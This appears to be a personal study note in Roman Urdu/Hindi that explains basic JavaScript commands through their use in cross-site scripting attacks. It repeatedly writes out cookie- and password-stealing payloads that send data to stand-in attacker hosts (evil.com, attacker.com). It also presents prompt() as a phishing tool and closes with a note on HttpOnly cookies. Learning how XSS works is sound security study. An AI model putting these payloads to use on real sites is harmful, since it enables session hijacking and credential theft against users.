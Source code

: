 JavaScript main agr hum **alert()** use krty hain ky website main XSS execute hoo rha hai ya nhi agr execute hoo rha hua too aik pop up ajaye ga

---

**prompt()** hum kisi command ky sath ius waqt use krty hain jab hamy user sy input chahie hota hai example agr hum likhty hain prompt("Enter your password") too website py aik display hota hai Enter Your Password phir user ius main apna password daaly ga

---

**var** hum taab lagaty hain jab hum user ki value ko apny database main store karna chahty hoon

**let** var aur let dono value store karte hain — lekin let zyada safe hota hai.

---

## Difference Between Var/let

Value store karna

**var**

var name = "Habib";

- Old JavaScript version ka style hai.

- Function-level scope rakhta hai.

**let**

let age = 18;

- New aur modern style hai (ES6+).

- Block-level scope rakhta hai.

---

**document.cookie** — (Cookies churaana)

document.cookie ek JavaScript command hai jo browser se current website ki cookie value nikalta hai.

### ⚠️ XSS mein is kaam ke liye use hota hai:

**var c = document.cookie;
alert(c); // tumhari current session ki cookies dikha dega**

### Agar attacker ka XSS payload chalta hai, toh wo ye kar sakta hai:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

### 🕵️‍♂️ Matlab: Victim ki session cookie attacker ko chali jaayegi = session hijack

---

**fetch()** — (Data dusri jagah bhejna)

fetch() ka kaam hota hai HTTP request bhejna JavaScript se.

### Example:

**fetch("https://attacker.com/steal?info=hello");**

🧠 Attacker isse user ka input, cookie, ya password apni site pe secretly bhej sakta hai.

### XSS exploit:

**fetch("https://evil.com/log?cookie=" + document.cookie);**

---

if else bhi 100% samj agya

---

### Quick Summary

**alert()**	Popup show karta hai	

XSS main use: XSS payload test karna

**prompt()**	User se input leta hai

XSS main use: Fake login / phishing

**var or let**	Value store karta hai
XSS main use: Cookie ya user data store karna

**if / else** Logic lagana
XSS main use:	Kab kya run ho

**document.cookie**	User ki cookies nikalna
XSS main use:	Session hijack

**fetch()** Data dusri site pe bhejna
XSS main use: Data leak (exfiltrate)

**img.src** 	Image ke zariye request bhejna	
XSS main use: Alternate data leak meth

---

✅ Q1: Agar main JavaScript jaisa yeh code enter kar doon: **let c = document.cookie; alert(c);**

Toh kya mujhe mere browser ki cookie mil jaaye gi?

✔️ Jawab:
Haan! Agar tum yeh JavaScript code kisi website ke JavaScript console mein daalte ho (F12 > Console), aur us website ne cookies set ki hoti hain (aur wo HttpOnly nahi hain), toh alert(c) tumhein wo cookies dikha dega.

**let c = document.cookie;
alert(c);**

### 🧠 Note: let ya var dono kaam karte hain — let sirf zyada modern hai, lekin cookies access karne mein koi farq nahi padta.

---

✅ Q2: Attacker yeh command likhta hai: fetch(**"https://evil.com/steal?cookie=" + document.cookie**);

Kya yeh victim ki cookies le jaa sakta hai?

✔️ Jawab:
Haan! Agar attacker ka XSS payload kisi website mein run ho jaata hai (malicious script inject ho jaaye) aur victim ka browser wo script chala deta hai, toh document.cookie victim ki cookies uthata hai aur fetch() ke zariye hacker ki website pe send ho jaata hai.

📦 Example full payload:

**fetch("https://evil.com/steal?cookie=" + document.cookie);**

---

✅ Q3:Command: **fetch("https://attacker.com/steal?info=hello");**

Kya hacker hello info apni site pe le ja raha hai?

✔️ Jawab:
Bilkul! Yeh sirf ek example hai — "hello" ek fake value hai. Attacker yahan koi bhi info daal sakta hai:

**fetch("https://attacker.com/steal?info=" + document.cookie); // real cookie
fetch("https://attacker.com/steal?pass=" + userPassword); // agar variable mein password hai**

🧠 Iska matlab: fetch() basically ek chori ka raasta hai — secretly info bhejna.

---

### 🔐 Extra Note: HttpOnly Cookies

Agar cookie HttpOnly flag ke sath set hui hai, toh JavaScript se document.cookie use karke access nahi kar sakte.

Example: **Set-Cookie: sessionid=abc123; HttpOnly;**

Toh XSS hone ke bawajood document.cookie khali rahega. ✅


